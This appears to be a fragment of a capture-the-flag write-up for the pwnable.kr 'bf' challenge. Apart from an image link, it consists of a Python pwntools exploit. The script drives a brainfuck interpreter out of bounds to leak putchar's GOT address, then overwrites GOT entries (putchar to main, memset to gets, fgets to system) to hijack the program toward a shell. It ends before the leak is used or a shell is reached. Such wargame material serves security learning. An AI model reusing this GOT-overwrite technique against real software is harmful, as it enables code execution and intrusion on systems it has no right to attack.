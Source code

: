 ![image-20220816034419094](assets/image-20220816034419094.png)

EXP: 

```python
#!/usr/bin/python3
# coding=utf-8

from pwn import *
# context.log_level = "debug"

r = remote("pwnable.kr", 9001)
libc = ELF("./bf_libc.so")

r.recvuntil(b"type some brainfuck instructions except [ ]\n")
# leak addr of putchar
# putchar -> main
payload  = b"<"*(0x0804A0A0-0x0804A030)
payload += b"."
payload += b".>"*0x4
payload += b"<"*0x4
payload += b",>"*0x4

# memset -> gets
payload += b"<"*(0x0804A030-0x0804A02C+4)
payload += b",>"*0x4

# fgets -> system
payload += b"<"*(0x0804A02C-0x0804A010+4)
payload += b",>"*0x4

# ret main
payload += b"."

r.sendline(payload)

```